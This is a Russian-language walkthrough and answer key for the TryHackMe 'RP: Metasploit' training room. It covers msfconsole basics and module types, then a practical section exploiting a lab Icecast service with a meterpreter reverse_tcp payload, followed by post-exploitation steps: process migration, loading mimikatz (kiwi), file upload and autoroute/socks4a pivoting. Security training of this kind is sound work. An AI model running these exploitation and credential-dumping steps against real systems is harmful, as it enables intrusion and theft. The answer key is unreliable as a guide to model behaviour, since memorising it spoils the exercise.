





# ROOM RP: Metasploit



### **Задания в данной машине разделаются на практическую и теоретическую части.**
<details>
  <summary>Теоретическая часть</summary>

## [Task 1] Intro
Установка Metasploit.
## [Task 2] Initializing...
Состоит из обучения к запуску Metasploit'a и парочке вопросов

1) `We can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'`

Ответ: `-q`

2) `Cool! We've connected to the database, which type of database does Metasploit 5 use? `

Узнать базу данных, которую использует Metasploit можно с помощью команды `db_status`
Ответ: `postgresql`

## [Task 3] Rock 'em to the Core [Commands]
Базовые команды в Metasploit

1) `The help menu has a very short one-character alias, what is it?`

Ответ: `?`

2) `Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?`

Ответ: `search`

3) `Once we've found the module we want to leverage, what command we use to select it as the active module?`
   
Ответ: `use`

4) `How about if we want to view information about either a specific module or just the active one we have selected?`

Ответ: `info`

5) `Metasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?`

Ответ: `connect` 

[Connect more info](https://subscription.packtpub.com/book/networking_and_servers/9781788990615/12/ch12lvl1sec70/using-connect-as-netcat)

6) `Entirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?`

Овтет: `banner`

7) `We'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?`

Ответ: `set`

8) `Metasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?`

Ответ: `setg`

9) `Now that we've learned about to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.`\

Ответ: `get`

10) `How about changing the value of a variable to null/no value?`

Ответ: `unset`

11) `When performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?`

Ответ: `spool`

12) `Leaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.`

Ответ: `save`
### [Task 4] Modules for Every Occasion!

Основные модули Metasploit

1) `Easily the most common module utilized, which module holds all of the exploit code we will use?`

Ответ: `exploit`

2) `Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?`

Ответ: `payload`

3) `Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.`

Ответ: `auxiliary`

4) `One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?`

Ответ: `post`

5) `Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?`

Ответ: `encoders`

6) `Last but not least, which module is used with buffer overflow and ROP attacks?`

Ответ: `nop`

7) `Not every module is loaded in by default, what command can we use to load different modules?`

Ответ:`load`

</details>
<details>
  <summary>Практическая часть</summary>

## [Task 5] Move that shell!

1) `What service does nmap identify running on port 135?`

Ответ: `msrpc`

Решение : 
* Запустить nmap: `nmap -sV <IP>` 
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
8000/tcp  open  http-alt
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
```
* Решить задание как и положено через Metasploit : `db_nmap -sV  <IP>` и получить тот же список.


1) `Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start`

Ответ : `exploit/windows/http/icecast_header`



Решение : В msfconsole использовать команду `search icecast`, которая покажет нужный exploit

2)`While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.`

Ответ : `#`
## [Task 6] We're in, now what?

1) `First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?`

Ответ: `spoolsv.exe`

Решение: Использовать команду `ps` в сессии, чтобы увидеть список запущенных процессов.
<details> 
  <summary>Список процессов на хосте</summary>

```
Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]                                   
 4     0     System                                             
 416   4     smss.exe                                           
 548   540   csrss.exe                                          
 560   648   svchost.exe                                        
 596   540   wininit.exe                                        
 632   588   csrss.exe                                          
 648   596   services.exe                                       
 680   588   winlogon.exe                                       
 712   596   lsass.exe                                          
 720   596   lsm.exe                                            
 760   648   svchost.exe                                        
 824   2536  WinSAT.exe            x64   1                      
 828   648   svchost.exe                                        
 900   648   svchost.exe                                        
 952   648   svchost.exe                                        
 1072  648   Defrag.exe                                         
 1076  648   svchost.exe                                        
 1204  648   svchost.exe                                        
 1296  648   vds.exe                                            
 1328  560   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1344  1320  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1408  648   spoolsv.exe                                        
 1484  2308  mscorsvw.exe                                       
 1488  648   sppsvc.exe                                         
 1500  648   svchost.exe                                        
 1536  1344  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 1560  648   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1776  648   amazon-ssm-agent.exe                               
 1828  648   aitagent.exe                                       
 1888  648   LiteAgent.exe                                      
 1928  648   svchost.exe                                        
 2036  648   Ec2Config.exe                                      
 2116  648   SearchIndexer.exe                                  
 2268  632   conhost.exe           x64   1                      
 2292  648   mscorsvw.exe                                       
 2296  648   svchost.exe                                        
 2308  648   mscorsvw.exe                                       
 2412  548   conhost.exe                                        
 2520  548   conhost.exe                                        
 2536  648   taskhost.exe          x64   1                      
 2768  828   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2836  2768  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
 2848  648   rundll32.exe                                       
 2968  648   taskhost.exe
```
</details>

2) `Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!`

Ответ: `migrate`

3) `Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?`

Ответ: `getuid`

4) `How about finding more information out about the system itself?`
  
Ответ: `sysinfo`  

<details>

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

</details>

5) `This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?`

Ответ:`load kiwi`

[Github](https://github.com/rapid7/metasploit-framework/issues/11111)

[Mimakatz](https://www.offensive-security.com/metasploit-unleashed/mimikatz/)

6) `Let's go ahead and figure out the privileges of our current user, what command do we run?`

Ответ: `getprivs`

7) `What command do we run to transfer files to our victim computer?`

Ответ: `upload`

8) `How about if we want to run a Metasploit module?`

Ответ: `run`

9) `A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?`

Ответ: `ipconfig`

10) `One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?`

Ответ: `shell`

Список команд, которые надо было вводить в msf: 
```
60   set PAYLOAD windows/meterpreter/reverse_tcp
61   set LHOST 10.9.10.151
62   use icecast
63   set RHOST 10.10.219.189
64   run -j
65   jobs
66   sessions
67   sessions 1
```

[Meterpeter command](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
## [Task 7] Makin' Cisco Proud

1) `Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.`

Ответ: `run autoroute -s 172.18.1.0 -n 255.255.255.0`

2) `Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?`

Ответ: `auxiliary/server/socks4a`

1) `Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?`

Ответ: `proxychains`

</details>


